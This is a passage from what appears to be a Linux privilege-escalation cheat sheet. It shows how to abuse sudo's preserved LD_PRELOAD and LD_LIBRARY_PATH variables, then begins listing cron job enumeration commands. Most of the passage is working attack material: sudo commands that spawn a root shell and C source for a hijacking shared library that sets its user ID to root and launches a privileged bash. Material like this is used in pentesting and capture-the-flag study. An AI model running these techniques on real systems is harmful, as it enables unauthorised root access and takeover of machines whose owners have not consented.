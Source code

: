 Run one of the commands listed in `sudo -l` while setting `LD_PRELOAD` to the full path of the new shared object to spawn a root shell.
```bash
sudo LD_PRELOAD=/tmp/preload.so [command]
```

### LD_LIBRARY_PATH
Check if sudo is configured to preserve `LD_LIBRARY_PATH` through `env_keep`.
```bash
env_keep+=LD_LIBRARY_PATH
```

Run `ldd` against one of the binaries listed in `sudo -l` to see which shared libraries are used by the binary.
```bash
ldd /usr/bin/find

        linux-vdso.so.1 =>  (0x00007fff7a7ff000)
        librt.so.1 => /lib/librt.so.1 (0x00007fa6ee9bf000)
        libm.so.6 => /lib/libm.so.6 (0x00007fa6ee73e000)
        libc.so.6 => /lib/libc.so.6 (0x00007fa6ee3d1000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007fa6ee1b5000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa6eebcd000)       
```

Compile the following code with `gcc -o /tmp/librt.so.1 -shared -fPIC /home/user/library_path.c` to create a shared object that has the same name as one of the shared libraries used by the binary.
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Run `find` with `sudo` while setting `LD_LIBRARY_PATH` to the the directory where the new shared object was outputted to spawn a root shell.
```bash
sudo LD_LIBRARY_PATH=/tmp/ find
```

## Cron Jobs
Crontabs store the configuration for cron jobs.

View the system-wide crontab.
```bash
cat /etc/crontab
```

View the user crontabs.
```bash
crontab -l

cd /var/spool/cron/
cd /var/spool/cron/crontabs/
```

